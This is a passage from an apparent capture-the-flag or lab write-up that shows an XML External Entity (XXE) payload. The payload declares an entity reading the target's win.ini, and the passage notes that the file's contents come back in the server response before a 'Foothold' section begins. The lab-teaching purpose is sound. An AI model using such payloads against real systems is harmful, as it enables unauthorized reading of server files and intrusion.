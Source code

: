 ```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<order>
<quantity>
3
</quantity>
<item>
&test;
</item>
<address>
17th Estate, CA
</address>
</order>
```

The result is pictured below. You can send the request from the Repeater and receive the server's Response with the data pictured below.

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

The output of the win.ini file on the target itself is displayed in our response message, which proves that the XML External Entity vulnerability is present.

## Foothold

We can try guessing where all the important files are located, however, it might turn out to be an endless road. Let's try to find something of importance on the HTML code of the web page.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
